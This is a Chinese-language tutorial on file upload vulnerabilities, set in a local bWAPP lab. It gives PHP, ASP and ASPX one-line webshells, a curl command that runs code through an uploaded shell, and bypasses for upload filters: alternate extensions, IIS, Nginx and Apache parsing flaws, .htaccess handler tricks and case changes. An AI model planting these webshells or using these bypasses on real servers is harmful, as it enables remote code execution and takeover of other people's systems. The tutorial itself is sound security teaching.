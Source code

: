 #
#### 什么是文件上传漏洞
文件上传漏洞是开发者没有做充足验证情况下，允许用户上传恶意文件(木马，病毒，恶意脚本或WebShell等)。  


#### 实验环境
bwapp  
```
sudo docker run -d -p 8002:80 registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
```
首次需要初始化访问  
```
http://127.0.0.1:8002/install.php
```
安装完后新建一个用户以供后续实验使用  

![](/web-security/img/upload_file1.png)


#### 文件上传初体验  
登陆bwapp并选择文件上传(Unrestricted File Upload / low)  

创建木马文件并上传  
```
# shell.php

<?php @eval($_POST['hacker']); ?>
```
众所周之eval是个危险的函数，会将接受的字符串当做代码执行。  


![](/web-security/img/upload_file2.png)
由于没有上传管理，所以成功php这种危险的文件。后点击`here`会得知`http://127.0.0.1:8002/images/shell.php`文件被上传到了images文件目录下，并可以直接访问。  


php有很多获取信息的函数，比如`get_current_user()`, `getcwd()`等  
因此可以通过hacker参数来执行php代码  
```
shan@shan-GV62-8RC:~/下载/test$ curl -d "hacker=echo get_current_user();"  http://127.0.0.1:8002/images/shell.php
www-data  # 成功回显当前用户
shan@shan-GV62-8RC:~/下载/test$ 
```
如果所有都要靠api是很麻烦的事，所以可以通过几年前比较有名的 中国菜刀 来让一句话木马做不同的功能。  


其他语言的一句话木马  
```
asp   <%eval request ("pass")%>
aspx：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

&emsp;
#### 后缀名绕过
这次使用(Unrestricted File Upload / medium)  

直接上传shell.php  

![](/web-security/img/upload_file3.png)

可以看到已经不被允许了  

重命名之前的shell.php为shell.php3再次上传，会发现上传成功，并能通过api调用。   

**绕过原理**  
如果改为shell.php30则不行，通过apache配置文件可以找到原因。  
进入容器，找到apache语言解析里的配置  
```
shan@shan-GV62-8RC:~/下载/test$ sudo docker exec -it 0ad6cabb9350 /bin/bash
  
root@0ad6cabb9350:/# cat /etc/apache2/mods-enabled/php5.conf 
<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
<FilesMatch ".+\.phps$">
    SetHandler application/x-httpd-php-source
    # Deny access to raw php sources by default
    # To re-enable it's recommended to enable access to the files
    # only in specific virtual host or directory
    Order Deny,Allow
    Deny from all
</FilesMatch>
# Deny access to files without filename (e.g. '.php')
<FilesMatch "^\.ph(p[345]?|t|tml|ps)$">
    Order Deny,Allow
    Deny from all
</FilesMatch>

# Running PHP scripts in user directories is disabled by default
# 
# To re-enable PHP in user directories comment the following lines
# (from <IfModule ...> to </IfModule>.) Do NOT set it to On as it
# prevents .htaccess files from disabling it.
<IfModule mod_userdir.c>
    <Directory /home/*/public_html>
        php_admin_flag engine Off
    </Directory>
</IfModule>
```
可以看到 它把 php3、php4、php5、pht、phptml、phps都会解析成php  


#### 服务器中间件漏洞导致的绕过
**IIS5.x/6.0解析漏洞**  
目录解析漏洞：在网站下建立文件夹的名字为*.asp、*.asa、*.cer、*.cdx 的文件夹，那么在这些目录内的任何扩展名的文件都会被IIS当做asp文件来解释并执行  

文件名解析漏洞：分号后面的不被解析，也就是说 xie.asp;.jpg 会被服务器看成是xie.asp  


**Nginx解析漏洞**  
在低版本nginx中存在一个由PHP-CGI导致的文件解析漏洞  
PHP配置中一个关键选项cgi.fix_pathinfo在本机中位于php.ini配置文件中默认是开启的  
当url中有不存在的文件时会向前解析  
也就是`www.xx.com/phpinfo.jpg/1.php`中`1.php`不存在。就会解析phpinfo.jpg文件，但是按照php格式解析。  
在IIS中开启了Fast-CGI开启状态下也存在这个解析漏洞  


**Apache解析漏洞**  
在apache1.x和2.x版本存在该解析漏洞  
apache从右至左开始判断后缀，跳过不可识别的后缀，直到能识别的后缀在进行解析  
因此如果上传shell.php.test并访问，服务器会解析为shell.php  



#### 前端验证绕过，htaccess绕过，大小写绕过
**前端验证绕过**  
这个很简单，很多网站只在前端验证，所以只需要直接通过后端api上传就行。  

**htaccess绕过**  
htaccess文件是apache服务器中的一个配置文件。它负责相关目录下的网页配置。它可以实现重定向，改变文件扩展名，允许/阻止特定用户的访问等功能  

其中.htaccess文件内容为`SetHandler application/x-httpd-php .test`会设置当前目录所有test后缀文件都使用php解析(只要文件中内容符合php语言规范，就会被当作php执行)  

apache中通过在http.conf中设置AllowOerride启动.htaccess  

![](/web-security/img/upload_file4.png)

如果先上传这样一个.htaccess文件  
再把之前的shell.php改成shell.test上传成功执行。  


**大小写绕过**
这是一种比较简单的绕过方式，是针对黑名单过滤  
如果想要上传一个php木马，那么上传一个pHp即可


#### 文件流绕过，字符串截断绕过，文件头检测绕过


